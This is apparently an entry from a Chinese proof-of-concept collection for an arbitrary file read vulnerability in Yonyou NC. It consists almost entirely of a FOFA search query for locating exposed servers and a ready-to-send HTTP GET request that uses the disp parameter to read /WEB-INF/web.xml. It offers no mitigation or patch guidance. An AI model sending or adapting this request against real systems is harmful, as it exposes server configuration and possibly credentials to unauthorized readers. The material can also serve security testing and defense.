 
## 用友NC word.docx任意文件读取漏洞

## fofa
```
body="UClient.dmg"
```

## poc
```
GET /portal/docctr/open/word.docx?disp=/WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive

```

## 漏洞复现
![0152cd5a2d208fb2e336de5ac3621ebb](../../images/05dcd3bf-a6ae-4aac-95ca-e6788e2eadb0.png)
